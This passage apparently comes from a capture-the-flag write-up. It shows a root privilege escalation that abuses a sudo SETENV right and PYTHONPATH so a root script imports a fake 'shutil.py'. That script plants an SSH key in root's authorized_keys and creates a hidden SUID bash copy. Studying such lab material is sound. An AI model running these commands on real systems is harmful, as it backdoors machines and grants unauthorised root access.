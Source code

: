 Whenever Python imports a module, it checks the PYTHONPATH variable for the directories to import it from, kind of like regular PATH. The SETENV privilege would let us change this variable to anything we want.

So to exploit this, we would simply need to change the PYTHONPATH variable to make the script import a malicious script that we have created. Because the module checks for `shutil`, we would need to name our malicious script `shutil.py` with a function `make_archive()` that takes 3 parameters but does nothing.

Afterwards, we need to find a directory that works. For some reason, the `/home/waldo` and `/tmp` directories were consistenly being cleared in this machine. As such, I used the `/var/tmp` directory, which seemed to be alright.

A quick Python script to echo our public key into the authorized\_key folder AND create a SUID binary should work:

{% code overflow="wrap" %}
```python
#!/usr/bin/python3

import os
# fake function to make import successful
def make_archive(a,b,c):
    pass

os.system("mkdir -p /root/.ssh; echo '<KEY>' >> /root/.ssh/authorized_keys")
os.system('cp /bin/bash /var/tmp/.user; chown root:root /var/tmp/.user; chmod 4755 /var/tmp/.user')
```
{% endcode %}

Afterwards, we can change the PYTHONPATH used for the script.

<figure><img src="../../../.gitbook/assets/image (1603).png" alt=""><figcaption></figcaption></figure>

Then, we can SSH in as root using the key we have.

<figure><img src="../../../.gitbook/assets/image (3723).png" alt=""><figcaption></figcaption></figure>

